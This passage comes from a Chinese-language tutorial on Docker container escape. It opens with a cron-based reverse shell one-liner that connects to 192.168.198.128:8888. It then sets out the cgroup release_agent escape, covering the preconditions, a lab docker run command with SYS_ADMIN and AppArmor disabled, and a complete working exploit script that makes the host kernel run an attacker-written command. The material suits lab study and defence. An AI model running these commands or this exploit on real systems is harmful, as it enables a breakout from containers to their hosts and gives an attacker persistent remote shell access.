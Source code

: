 
相同也可以通过计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`



### **Cgroup执行宿主机系统命令**

docker使用cgroup进行资源限制，当cgroup中最后一个任务结束且notify_on_release开启，release_agent可执行事先提供的命令，因此可以利用这个特性来实现容器的逃逸。

### **漏洞利用条件**



1.以root用户身份在容器内运行 

2.使用SYS_ADMINLinux功能运行 

3.缺少APPArmor配置文件，否则将允许mountsyscall 

4.cgroup V1虚拟文件系统必须以读写方式安装在容器内

~~~text
#### 环境搭建

docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:18.04  
~~~

![image-20231008151550551](Docker逃逸.assets/image-20231008151550551.png)

### **漏洞利用**

```text
# 挂载宿主机cgroup，自定义一个cgroup，/tmp/cgrp/x 
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x 
# 设置/tmp/cgrp/x的cgroup的notify_no_release和release_agent 
#  设置/tmp/cgrp/x的notify_no_release属性设置为1，通过sed匹配出/etc/mtab中perdir=的路径,然后将路径+cmd写入/tmp/cgrp/release_agent 
echo 1 > /tmp/cgrp/x/notify_on_release 
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` 
echo "$host_path/cmd" > /tmp/cgrp/release_agent 
# 写入自定义命令 
echo '#!/bin/sh' > /cmd 
# 结果在当前目录的output文件中 
echo "cat /flag.txt > $host_path/output" >> /cmd 
chmod a+x /cmd 
# 执行完sh -c之后，sh进程自动退出，cgroup /tmp/cgrp/x里不再包含任何任务，/tmp/cgrp/release_agent文件里的shell将被操作系统内核执行,达到了容器逃逸的效果 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
```
